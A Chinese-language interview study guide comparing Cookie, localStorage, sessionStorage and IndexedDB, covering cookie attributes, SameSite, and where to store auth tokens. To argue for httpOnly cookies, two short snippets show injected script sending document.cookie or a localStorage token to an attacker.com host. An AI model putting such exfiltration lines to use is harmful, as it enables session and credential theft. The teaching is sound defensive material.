



# Web 存储方案对比

## ⭐ 面试重点速览

| 知识模块 | 重点内容 | 面试频率 |
|----------|----------|----------|
| 四种存储方案对比 | Cookie / localStorage / sessionStorage / IndexedDB 的容量、生命周期、作用域、与服务器通信 | 极高 |
| Cookie 详解 | 属性（domain/path/expires/max-age/httpOnly/secure/SameSite）、与 Session 的关系 | 极高 |
| localStorage vs sessionStorage | 生命周期差异、同源策略、多标签页共享行为 | 极高 |
| IndexedDB | 非关系型数据库、异步 API、适用场景（离线应用、大量数据） | 中等 |
| Token 存储方案 | Cookie httpOnly vs localStorage 安全性对比 | 极高 |

---

## 一、四种存储方案对比总览

### 1.1 核心对比表

| 维度 | Cookie | localStorage | sessionStorage | IndexedDB |
|------|--------|-------------|----------------|-----------|
| **容量** | 约 4KB（每个域名 20-50 条） | 约 5MB（不同浏览器有差异） | 约 5MB（不同浏览器有差异） | 通常无上限（受磁盘空间限制，可 GB 级） |
| **生命周期** | 可设置过期时间（expires/max-age），默认关闭浏览器失效 | **永久存储**，除非手动删除或代码清除 | **标签页关闭即清除**（刷新页面不丢失） | 永久存储，除非手动删除 |
| **作用域** | 可设置 domain 和 path 控制作用范围 | 同源（协议+域名+端口）共享 | 同源 + **同一标签页**，不同标签页互相隔离 | 同源共享 |
| **与服务器通信** | 每次 HTTP 请求**自动携带**（在 Cookie 请求头中） | 不自动携带，需手动通过 JS 读取后放入请求 | 不自动携带 | 不自动携带 |
| **API 易用性** | `document.cookie` 字符串操作，极其难用 | 简洁的键值对 API：`setItem/getItem/removeItem` | 同 localStorage | 异步 API，基于事务，较复杂 |
| **存储类型** | 字符串 | 字符串（键值对） | 字符串（键值对） | 任意结构化数据（对象、数组、二进制、File/Blob） |
| **索引/查询** | 无 | 无 | 无 | 支持索引、游标、范围查询 |
| **多标签页共享** | 同源共享 | 同源共享 | **不共享**（每个标签页独立） | 同源共享 |

### 1.2 快速选择指南



---

## 二、Cookie 详解

### 2.1 Cookie 是什么？

Cookie 是服务器发送到浏览器并保存在本地的一小段数据（不超过 4KB），浏览器在后续请求同一服务器时会**自动携带**该 Cookie。它是 HTTP 协议的一部分，最早用于解决 HTTP 无状态的问题。

### 2.2 Cookie 的基本操作

```javascript
// Cookie 的原生操作（极其原始，通常借助封装库）
// 读取 Cookie：返回当前域名下所有 Cookie 的字符串
console.log(document.cookie);
// 输出示例："name=Alice; theme=dark; lang=zh-CN"

// 写入 Cookie：一次只能写一个
document.cookie = 'username=Alice; path=/; max-age=86400';

// 删除 Cookie：设置过期时间为过去
document.cookie = 'username=; path=/; max-age=0';

// 注意：document.cookie 的读写是完全不对称的：
// 读：一次性返回所有 Cookie 的 name=value 字符串
// 写：一次只能设置一个 Cookie，且不会覆盖其他 Cookie
```

### 2.3 Cookie 属性详解

```http
Set-Cookie: sessionId=abc123; Domain=.example.com; Path=/app; Expires=Wed, 21 Oct 2025 07:28:00 GMT; Max-Age=86400; HttpOnly; Secure; SameSite=Lax
```

| 属性 | 作用 | 默认值 | 说明 |
|------|------|--------|------|
| **Domain** | 控制 Cookie 可被发送到哪些域名 | 当前文档域名（不含子域名） | 设置为 `.example.com` 时，`a.example.com` 和 `b.example.com` 都能访问 |
| **Path** | 控制 Cookie 可被发送到哪些路径 | 当前文档路径 | 设置为 `/` 时全站可用；设置为 `/app` 时仅 `/app` 及其子路径可用 |
| **Expires** | 指定具体的过期日期时间（GMT 格式） | 会话结束即过期 | 绝对时间，设置过去的时间即可删除 Cookie |
| **Max-Age** | 指定多少秒后过期 | 不设置则视为会话 Cookie | 相对时间，优先级高于 Expires；设为 0 或负数立即删除 |
| **HttpOnly** | 禁止 JavaScript 通过 `document.cookie` 访问 | `false` | **核心安全属性**：开启后 JS 无法读取，可防止 XSS 窃取 Cookie |
| **Secure** | 仅通过 HTTPS 传输 Cookie | `false` | 中间人攻击（MITM）无法窃听 HTTPS 流量中的 Cookie |
| **SameSite** | 控制跨站请求是否携带 Cookie | `Lax`（Chrome 80+） | `Strict`：完全禁止跨站携带；`Lax`：允许顶级导航（如点击链接）时携带；`None`：总是携带，但必须配合 `Secure` |

```javascript
// Cookie 属性演示
// 1. Domain 的作用范围
// 在 a.example.com 下设置
document.cookie = 'user=Alice; domain=.example.com; path=/';
// b.example.com 也能读取到该 Cookie

// 2. 不设置 Domain 的效果
document.cookie = 'user=Alice; path=/';
// 只有 a.example.com 能读取，b.example.com 读取不到

// 3. SameSite 三种模式的行为差异
// SameSite=Strict：从其他网站点击链接跳转过来，Cookie 也不会发送
// 用户从邮件点击链接到你的网站 → 登录状态丢失 → 需要重新登录

// SameSite=Lax（默认）：从其他网站点击链接跳转可以发送 Cookie
// 但 img/iframe/ajax 等子资源请求不会发送 Cookie

// SameSite=None：总是发送 Cookie，但必须配合 Secure
// 适用于第三方嵌入场景（如嵌入式支付组件）
```

### 2.4 Cookie 与 Session 的关系

Cookie 和 Session 经常被混淆，但它们是两个不同层面的东西：



**关键理解**：

| 维度 | Cookie | Session |
|------|--------|---------|
| 存储位置 | **浏览器**（客户端） | **服务器**（内存/数据库/Redis） |
| 存储内容 | SessionID（一串随机字符串） | 用户数据（user 对象、购物车等） |
| 安全性 | SessionID 可能被窃取（但可通过 httpOnly/Secure 缓解） | 用户数据在服务端，相对安全 |
| 容量限制 | 仅存储 SessionID，不会超过 4KB | 理论上无限制（取决于服务器内存） |
| 本质 | **传输机制**（载体） | **会话数据**（内容） |

::: tip 一句话总结
Cookie 是"钥匙"（SessionID），Session 是"保险柜"（用户数据）。钥匙放在浏览器，保险柜放在服务器。每次请求浏览器自动把钥匙交给服务器，服务器用钥匙打开保险柜取出用户数据。
:::

### 2.5 Cookie 的局限性

```javascript
// 1. 容量极小：每个 Cookie 约 4KB，每个域名下通常限制 20-50 个
// 2. 自动携带：每次同域 HTTP 请求都自动携带所有 Cookie，增加请求体积
//    → 同一域名下静态资源请求也会携带 Cookie，浪费带宽
//    → 解决方案：静态资源使用独立域名（CDN），避免携带 Cookie

// 3. 安全性问题（未设置 httpOnly + Secure 时）
document.cookie = 'token=abc123';  // XSS 可直接读取
// 攻击者注入的恶意脚本可以：
const stolen = document.cookie;
fetch('https://attacker.com/steal?cookie=' + encodeURIComponent(stolen));
```

---

## 三、localStorage vs sessionStorage 对比

### 3.1 核心区别

| 维度 | localStorage | sessionStorage |
|------|-------------|----------------|
| **生命周期** | 永久存储，除非手动删除或用代码清除 | **标签页关闭即清除**（刷新页面不会丢失） |
| **同源策略** | 同源（协议+域名+端口）共享 | 同源共享 |
| **多标签页共享** | **共享** —— 同源下所有标签页可以读写同一份数据 | **不共享** —— 每个标签页独立存储，互不影响 |
| **存储事件** | 支持 `storage` 事件（同源其他标签页修改数据时会触发） | 不支持（仅当前标签页操作，不触发事件） |
| **新标签页行为** | 新标签页打开时可读取已有数据 | 新标签页打开时为**全新空存储** |
| **页面跳转** | 数据保留 | 同标签页内跳转保留（如 `location.href`），但 `window.open` 新标签页不共享 |

### 3.2 生命周期演示

```javascript
// === localStorage：永久存储 ===
localStorage.setItem('theme', 'dark');
// 关闭浏览器 → 重新打开 → 数据仍然存在
console.log(localStorage.getItem('theme')); // 'dark'

// === sessionStorage：标签页关闭即清除 ===
sessionStorage.setItem('tempData', 'hello');
// 刷新页面（F5） → 数据仍然存在
console.log(sessionStorage.getItem('tempData')); // 'hello'
// 关闭标签页 → 重新打开 → 数据丢失
console.log(sessionStorage.getItem('tempData')); // null

// 注意："关闭标签页" 指的是关闭浏览器标签页，而非关闭浏览器窗口
// 浏览器崩溃恢复时 sessionStorage 的数据可能保留，取决于浏览器实现
```

### 3.3 多标签页共享行为

```javascript
// === localStorage 多标签页共享 ===
// 标签页 A
localStorage.setItem('sharedKey', 'value-from-A');

// 标签页 B（同源）
console.log(localStorage.getItem('sharedKey')); // 'value-from-A' —— 可以读取

// 标签页 B 监听 storage 事件
window.addEventListener('storage', (e) => {
    console.log(`键: ${e.key}`);
    console.log(`旧值: ${e.oldValue}`);
    console.log(`新值: ${e.newValue}`);
    console.log(`触发页面: ${e.url}`);
});
// 当标签页 A 修改 localStorage 时，标签页 B 会收到 storage 事件
// 注意：触发修改的页面自身不会收到 storage 事件！

// === sessionStorage 多标签页隔离 ===
// 标签页 A
sessionStorage.setItem('isolatedKey', 'value-from-A');

// 标签页 B（同源，但不同标签页）
console.log(sessionStorage.getItem('isolatedKey')); // null —— 读取不到！

// 即使是通过 window.open 打开的标签页，sessionStorage 也不会自动复制
// 但可以通过 window.open 的返回值访问新窗口的 sessionStorage：
// const newWin = window.open('https://same-origin.com/page');
// newWin.sessionStorage.setItem('key', 'value');
```

### 3.4 存储空间探测

```javascript
// 探测 localStorage 可用空间（不同浏览器限制不同，通常 5MB 左右）
function getStorageSize() {
    const testKey = '__storage_test__';
    let total = 0;
    try {
        for (let i = 0; i < 1000; i++) {
            // 每次写入约 10KB 数据
            const chunk = 'a'.repeat(10240);
            localStorage.setItem(testKey + i, chunk);
            total += chunk.length;
        }
    } catch (e) {
        // 达到容量上限，抛出 QuotaExceededError
        console.log(`localStorage 容量约为 ${(total / 1024 / 1024).toFixed(2)} MB`);
    } finally {
        // 清理测试数据
        for (let i = 0; i < 1000; i++) {
            localStorage.removeItem(testKey + i);
        }
    }
    return total;
}
```

### 3.5 常见使用场景

| 存储方案 | 适用场景 | 示例 |
|----------|----------|------|
| `localStorage` | 用户偏好设置、主题、语言、草稿保存 | 深色/浅色模式、已读标记、表单草稿自动保存 |
| `sessionStorage` | 页面间临时数据传递、表单分步数据 | 多步骤表单中间数据、搜索筛选条件暂存 |
| `localStorage` | 前端缓存（减少请求） | 缓存不常变化的配置数据、字典数据 |
| `sessionStorage` | 防止重复提交 | 存储请求唯一标识，页面关闭自动清除 |

---

## 四、IndexedDB 简介

### 4.1 IndexedDB 是什么？

IndexedDB 是浏览器提供的**本地 NoSQL 数据库**，用于在客户端存储大量结构化数据。它支持索引、事务、游标等数据库特性，是替代 Web SQL 的 W3C 标准方案。



### 4.2 IndexedDB 核心特性

| 特性 | 说明 |
|------|------|
| **非关系型（NoSQL）** | 以对象仓库（Object Store）形式存储，类似 MongoDB 的集合概念 |
| **异步 API** | 所有操作都通过事件（onsuccess/onerror）或 Promise 返回结果，不阻塞主线程 |
| **事务支持** | 读写操作必须在事务中进行，保证数据一致性 |
| **索引支持** | 可以为任意字段建立索引，实现高效查询 |
| **容量大** | 通常无硬性上限，受磁盘空间限制（可存储 GB 级数据） |
| **同源限制** | 与 localStorage 一样受同源策略限制 |
| **结构化数据** | 可以存储对象、数组、二进制数据（File/Blob）、甚至 JavaScript 克隆的任意对象 |

### 4.3 基本使用示例

```javascript
// 1. 打开数据库（如果不存在则创建）
const request = indexedDB.open('MyDatabase', 1);

// 数据库首次创建或版本升级时触发
request.onupgradeneeded = (event) => {
    const db = event.target.result;

    // 创建对象仓库（类似关系数据库的"表"）
    if (!db.objectStoreNames.contains('users')) {
        // keyPath 指定主键字段，autoIncrement 自动递增
        const store = db.createObjectStore('users', {
            keyPath: 'id',
            autoIncrement: true
        });
        // 创建索引（加速查询）
        store.createIndex('name', 'name', { unique: false });
        store.createIndex('email', 'email', { unique: true });
        store.createIndex('age', 'age', { unique: false });
    }
};

// 2. 数据库打开成功后操作
request.onsuccess = (event) => {
    const db = event.target.result;

    // 添加数据（写入操作必须在事务中进行）
    const transaction = db.transaction('users', 'readwrite');
    const store = transaction.objectStore('users');

    store.add({ name: 'Alice', email: 'alice@example.com', age: 28 });
    store.add({ name: 'Bob', email: 'bob@example.com', age: 32 });

    transaction.oncomplete = () => {
        console.log('数据添加完成');
    };

    transaction.onerror = () => {
        console.error('事务失败');
    };

    // 3. 查询数据（通过索引）
    const readTx = db.transaction('users', 'readonly');
    const readStore = readTx.objectStore('users');
    const nameIndex = readStore.index('name');

    const getRequest = nameIndex.get('Alice');
    getRequest.onsuccess = (e) => {
        console.log('查询结果:', e.target.result);
        // { id: 1, name: 'Alice', email: 'alice@example.com', age: 28 }
    };

    // 4. 游标遍历（范围查询）
    const ageIndex = readStore.index('age');
    // 查询年龄在 25-35 之间的用户
    const range = IDBKeyRange.bound(25, 35);
    const cursorRequest = ageIndex.openCursor(range);

    cursorRequest.onsuccess = (e) => {
        const cursor = e.target.result;
        if (cursor) {
            console.log(`用户: ${cursor.value.name}, 年龄: ${cursor.value.age}`);
            cursor.continue(); // 继续遍历下一条
        } else {
            console.log('遍历完成');
        }
    };
};
```

### 4.4 IndexedDB 适用场景

| 场景 | 说明 |
|------|------|
| **离线 Web 应用** | 配合 Service Worker 实现离线功能，缓存大量数据 |
| **大量数据的增删改查** | 超出 localStorage 5MB 限制的场景，如邮件客户端、笔记应用 |
| **文件存储** | 存储图片、视频等二进制文件（File/Blob） |
| **搜索索引** | 为本地数据建立索引，实现快速搜索 |
| **PWA 应用** | 渐进式 Web 应用的核心存储方案 |
| **游戏存档** | 存储复杂的游戏状态和进度数据 |

::: tip IndexedDB 的封装库
原生 IndexedDB API 基于事件回调，代码比较冗长。实际开发中推荐使用封装库：

- **Dexie.js**：最流行的 IndexedDB 封装库，提供 Promise 风格的简洁 API
- **idb**：Google 推出的轻量级封装，仅 1KB
- **localForage**：自动降级方案（优先 IndexedDB → WebSQL → localStorage）
:::

---

## 五、面试高频问题汇总

### Q1：Cookie 和 localStorage 的区别？

| 维度 | Cookie | localStorage |
|------|--------|-------------|
| 容量 | 约 4KB | 约 5MB |
| 生命周期 | 可设置过期时间，默认会话结束失效 | 永久存储，除非手动删除 |
| 与服务器通信 | 每次 HTTP 请求自动携带在请求头中 | 不自动携带，需手动通过 JS 读取后放入请求 |
| 操作方式 | `document.cookie` 字符串解析，极其难用 | `setItem/getItem/removeItem` 简洁 API |
| 作用域 | 可设置 domain 和 path 控制 | 严格同源 |
| 安全性 | 可设置 httpOnly 防 XSS 窃取 | 无此机制，XSS 可直接读取 |
| 性能影响 | 每次请求都携带，增加请求体积 | 不影响请求性能 |

**核心区别总结**：Cookie 是给服务器看的（自动携带），localStorage 是给前端 JS 看的（纯前端存储）。

### Q2：Token 应该存哪里？Cookie 还是 localStorage？

这是一个高频率的面试追问，需要从安全性角度进行深入分析。

**推荐方案：Cookie httpOnly + Secure + SameSite**

```javascript
// 服务端设置 Cookie
res.cookie('token', jwtToken, {
    httpOnly: true,   // JS 无法读取，防止 XSS 窃取
    secure: true,     // 仅 HTTPS 传输
    sameSite: 'lax', // 防止 CSRF
    maxAge: 15 * 60 * 1000 // 15 分钟
});
```

**安全性分析**：

| 攻击向量 | Cookie httpOnly | localStorage |
|----------|----------------|--------------|
| XSS 窃取 Token | 安全（JS 无法读取 httpOnly Cookie） | 危险（JS 可直接读取） |
| CSRF 攻击 | 需要额外防护（SameSite/CSRF Token） | 天然防御（前端手动添加 Header） |
| 中间人攻击 | Secure 属性下 HTTPS 加密传输 | 依赖 HTTPS |
| Token 泄露影响 | 较小（通常短过期 + 可配合黑名单） | 较大（永久存储，长期有效） |

**为什么 localStorage 不够安全？**

```javascript
// 攻击者只需注入一行代码就能窃取 Token
const token = localStorage.getItem('token');
fetch('https://attacker.com/steal?token=' + token);

// 一旦 XSS 漏洞存在，localStorage 中的 Token 必然泄露
// 而 Cookie httpOnly 即使存在 XSS 也无法读取
```

::: danger 错误观点纠正
很多人认为"localStorage 防 CSRF 所以更安全"——这是错误的。CSRF 的危害远小于 XSS，因为 XSS 可以在受害者的浏览器中执行任意脚本，相当于完全控制了页面。用 localStorage 防 CSRF 是"丢了西瓜捡芝麻"。
:::

**结论**：
- **Web 应用**：Cookie httpOnly + Secure + SameSite，配合 CSRF Token 防护
- **移动端原生 App**：使用安全的本地存储（Keychain/Keystore），非 WebView 环境传 Header
- **绝对不要**：只把 Token 存在 localStorage 就完事了

### Q3：localStorage 和 sessionStorage 的区别？什么时候用哪个？

| 维度 | localStorage | sessionStorage |
|------|-------------|----------------|
| 生命周期 | 永久存储 | 标签页关闭即清除 |
| 多标签页共享 | 同源共享，可通过 storage 事件监听变化 | 各标签页独立，互不干扰 |
| 常用场景 | 用户偏好、主题、草稿、缓存 | 表单分步数据、页面间临时传递、防重复提交 |

**实际场景举例**：
- 用户选择的语言/主题 → `localStorage`（关闭浏览器后重新打开应保持）
- 多步骤注册表单中间数据 → `sessionStorage`（关闭标签页自动清除，不影响下次注册）
- 搜索结果筛选条件 → `sessionStorage`（刷新页面保留，关闭标签页清除）

### Q4：IndexedDB 和 localStorage 的区别？什么时候用 IndexedDB？

| 维度 | localStorage | IndexedDB |
|------|-------------|-----------|
| 容量 | 约 5MB | 通常无上限（GB 级） |
| API 风格 | 同步，键值对 | 异步，事务 + 游标 |
| 数据类型 | 仅字符串 | 任意结构化数据 |
| 索引查询 | 不支持 | 支持索引和范围查询 |
| 性能（大数据量） | 读写会阻塞主线程 | 异步不阻塞，支持分页游标 |

**适用场景**：
- 少量配置数据、用户偏好 → `localStorage`
- 大量结构化数据、离线应用、PWA → `IndexedDB`

### Q5：Cookie 的 SameSite 属性有什么用？

SameSite 用于控制跨站请求是否携带 Cookie，是防御 CSRF 攻击的关键机制：

| 值 | 行为 | 适用场景 |
|-----|------|----------|
| `Strict` | 完全禁止跨站请求携带 Cookie | 高安全性系统（银行） |
| `Lax`（默认） | 允许顶级导航（点击链接）时携带，禁止子资源请求携带 | 大多数 Web 应用的推荐设置 |
| `None` | 总是携带，但必须配合 `Secure` | 第三方嵌入场景 |

```javascript
// 示例：用户从外部网站点击链接访问你的网站
// SameSite=Strict：
//   用户从邮件点击链接 → Cookie 不发送 → 需要重新登录（体验差）
// SameSite=Lax：
//   用户从邮件点击链接 → Cookie 发送 → 保持登录状态（体验好）
//   但 CSRF 攻击（通过 img/form/iframe 发起的请求）不会携带 Cookie → 安全
```

### Q6：为什么说 Cookie 影响性能？

Cookie 影响性能的原因在于**每次同域 HTTP 请求都会自动携带所有 Cookie**：

```
// 假设 Cookie 中有 2KB 数据
// 页面加载 50 个资源（JS、CSS、图片等）
// 每个请求都携带这 2KB → 额外传输 100KB！
// 解决方案：静态资源使用独立域名（CDN），避免携带 Cookie
```

最佳实践：
- 静态资源（CSS、JS、图片）使用独立的无 Cookie 域名（CDN）
- Cookie 中只放必要的信息（SessionID 即可），不要放冗余数据
- 利用 `Path` 属性限制 Cookie 的作用范围

---

## 六、总结

| 存储方案 | 一句话总结 | 典型场景 |
|----------|-----------|----------|
| Cookie | 自动携带的小块数据，用于服务端识别用户 | 登录态、用户追踪 |
| localStorage | 永久存储的键值对，前端持久化首选 | 用户偏好、主题、草稿缓存 |
| sessionStorage | 标签页级别的临时存储，关闭即清除 | 表单分步、临时状态 |
| IndexedDB | 浏览器中的 NoSQL 数据库，海量结构化数据 | 离线应用、PWA、大数据存储 |

面试中需要能够清晰对比四种存储方案，重点掌握 Cookie 与 localStorage 的区别、Token 存储安全性分析、以及 SameSite 属性的作用。